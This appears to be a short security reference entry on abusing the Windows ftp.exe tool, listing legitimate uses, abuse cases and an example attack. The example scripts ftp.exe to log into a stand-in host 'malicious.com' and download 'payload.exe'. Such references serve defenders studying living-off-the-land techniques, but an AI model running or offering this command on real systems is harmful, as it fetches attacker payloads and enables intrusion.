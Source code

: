 # ftp.exe
## What is it?
*ftp.exe is a built-in command-line tool in Windows used to transfer files via the File Transfer Protocol (FTP).*

## Legitimate Usage
- *Uploading and downloading files to/from FTP servers.*
- *Automating file transfers in scripts.*

## How to abuse it
- *Used to exfiltrate sensitive data.*
- *Can download malicious payloads.*

## Example Attacks
```
echo open malicious.com 21 > ftp.txt
echo user attacker pass123 >> ftp.txt
echo get payload.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
